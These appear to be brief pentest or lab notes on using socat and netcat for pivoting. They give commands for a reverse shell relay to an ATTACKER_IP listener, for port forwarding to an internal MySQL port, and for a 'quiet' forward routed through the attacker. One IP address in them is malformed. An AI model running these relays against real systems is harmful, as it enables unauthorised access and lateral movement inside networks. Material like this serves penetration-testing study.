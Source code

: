 ## Reverse shell relay

### Attacker: sudo nc -lvnp 443 

### Target: ./socat tcp-l:8000 tcp:ATTACKER_IP:443 &

## Port Forwarding

### ./socat tcp-l:33060,fork,reuseaddr tcp:172.1.6.0.10:3306 &

#### Fork: Puts every ocnnection into a new process

#### Reuseaddr: The port stays open after a connection is made to it.

## Port forwarding (Quiet)

### Attacker: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

### Target: ./socat tcp:ATTACKER_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

## Close backgrounded socat

### 1: jobs

### kill %num of process
